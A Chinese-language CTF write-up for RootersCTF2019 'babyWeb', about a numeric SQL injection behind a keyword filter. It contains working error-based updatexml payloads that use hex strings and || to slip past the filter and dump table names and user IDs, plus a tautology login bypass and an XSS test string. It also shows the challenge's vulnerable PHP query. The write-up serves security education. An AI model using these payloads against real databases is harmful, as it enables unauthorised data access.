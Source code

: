 # \[RootersCTF2019]babyWeb

## \[RootersCTF2019]babyWeb

## 考点

* 注入类型判断
* 报错注入
* 万能密码
* or绕过
* 单双引号绕过

## wp

给了提示

1. 密码是18位数字
2. 禁止输入字母和`UNION SLEEP ' " OR - BENCHMARK`

请求`search=1`返回语句`SELECT * FROM users WHERE uniqueid=1`

输入`0%23`返回`SELECT * FROM users WHERE uniqueid=0#`，应该是数字型注入

输入`1^1`返回的是`SELECT * FROM users WHERE uniqueid=1^1`，就很奇怪

那就试试`search=<script>alert(1)</script>`，结果弹框了，这里应该是服务端把GET请求的search原封不动的返回了

![](../.gitbook/assets/0pbIdCfWqxzriUaQ9G09eVPr8l3qRUN0RbUK9HPsyC8.png)

输入`<>`提示SQL语法错误，信息为`check the manual that corresponds to your MariaDB server version for the right syntax to use near '<>' at line 1`

直接试试`order by`呢，用大一点的数试试，输入`1 order by 5`，返回`Unknown column '5' in 'order clause'`

输入`1 order by 2`返回了正常信息，说明查询的列数是2

### 第一种解法：报错注入

这里可以下判断，是无回显的数字型注入，有报错信息，试试报错注入。

ban了`or`，可以使用`and`或者`||`；ban了单双引号，可以使用十六进制

```
search=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
sql_injection

search=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x73716C5F696E6A656374696F6E),0x7e),1)%23
users

search=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),0x7e),1)%23
search=1 and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),0x7e),1)%23
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,user,uniqueid

search=1 and updatexml(1,concat(0x7e,(select count(uniqueid) from users),0x7e),1)%23
2

search=1 and updatexml(1,concat(0x7e,(select group_concat(uniqueid) from users),0x7e),1)%23
837461526918364526,123456789928466788
```

使用837461526918364526即可

### 第二种解法：万能密码

payload：`1 || 1=1 limit 0,1`，使用`1 || 1=1`会列出所有的id，需要用limit控制输出

### 核心代码

```php
if(isset($_GET['search'])){
  $search = $_GET['search'];
  if(preg_match('/(union|sleep|\'|\"| or |-|benchmark)/i', $search)){
    exit();
  }
  else{
    $query = "SELECT * FROM users WHERE uniqueid=$search";
    $result=mysqli_query($link,$query) or die(mysqli_error($link));
    $count = mysqli_num_rows($result);
    if(mysqli_num_rows($result) === 1){
      while($row = mysqli_fetch_array($result)){
        $pass = $row['uniqueid'];
      }
      header("Location: https://babyweb.rootersctf.in/flag0flag0123456789.php?id=".$pass);
      die();
    }

    echo $query;
  }
}
```

## 小结

1. 类似题目，\[b01lers2020]Life on Mars是输入字符串但是是数字型注入，本题是输入数字回显原文的数字型注入
2. ban了`or`，可以使用`and`或者`||`
3. ban了单双引号，可以使用十六进制
